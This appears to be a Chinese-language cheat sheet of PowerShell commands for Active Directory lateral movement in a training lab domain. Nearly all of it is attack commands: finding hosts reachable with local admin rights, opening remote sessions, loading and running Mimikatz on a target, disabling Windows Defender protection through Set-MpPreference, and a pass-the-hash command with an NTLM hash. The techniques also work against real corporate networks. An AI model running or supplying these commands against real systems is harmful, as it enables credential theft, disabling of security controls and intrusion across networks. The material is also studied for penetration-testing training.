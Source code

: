 # 查找本地管理员可以用powershell远程登录的电脑
```
PS C:\AD> . .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\AD> Find-PSRemotingLocalAdminAccess
```
或者用powerview
```
Find-LocalAdminAccess
```


# 有LocalAdmin权限的，可以用以下命令在对方机器执行验证
```
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt
```

# 横向移动到指定电脑
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

Enter-PSSession dcorp-adminsrv.dollarcorp.moneycorp.local # 也可以不要参数
```


# 获取一个登陆的session，以便根据session指定操作
账号ciadmin可以横向登录到计算机dcorp-mgmt.dollarcorp.moneycorp.local，我们把登录的session保存在$sess
```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

在指定session里载入Mimikatz
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

指定目标靶机的session，在目标靶机执行Mimikatz
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```


# 以某个用户的身份登录到某台电脑（需要明文密码）
```
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

# 以某个用户的身份打开一个新的shell，有这个用户的所有权限，但是还在本机环境中（需要NTML）
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```